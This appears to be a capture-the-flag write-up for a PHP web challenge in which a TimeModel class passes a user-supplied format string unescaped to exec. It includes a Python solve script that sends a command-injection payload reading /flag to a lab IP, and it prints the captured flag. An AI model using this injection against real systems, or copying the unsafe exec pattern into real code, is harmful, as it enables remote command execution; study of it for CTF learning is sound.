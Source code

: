 ```yaml
---
ai_date: '2025-04-27 05:16:41'
ai_summary: Command injection vulnerability in TimeModel through format string
ai_tags:
- cmd-exec
- xss
- rce
created: 2024-07-16T22:50
points: 825
solves: 847
updated: 2024-08-04T19:29
---
```


## Analysis

`TimeModel` is the most obvious attack surface, it runs user supplied format in `exec`.

```php [TimeModel.php]
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

## Solve Script

```python
import requests
import re
payload = "'`cat /flag`'"
r = requests.get("http://94.237.59.199:39808/?format="+payload)
print(re.search("HTB{.*}", r.text).group(0))
# HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_33e95b9ffd98a08268d47ea25f327da1}
```

### Explanation

When we supply the following to format, we are able to embed a command execution that gives us the flag.

```
'`cat /flag`'
```

```php
$this->command = "date '+" . $format . "' 2>&1";
$this->command = "date '+'`cat /flag`'' 2>&1"; # will become
```

Not sure if existence of special characters might mess up the flag.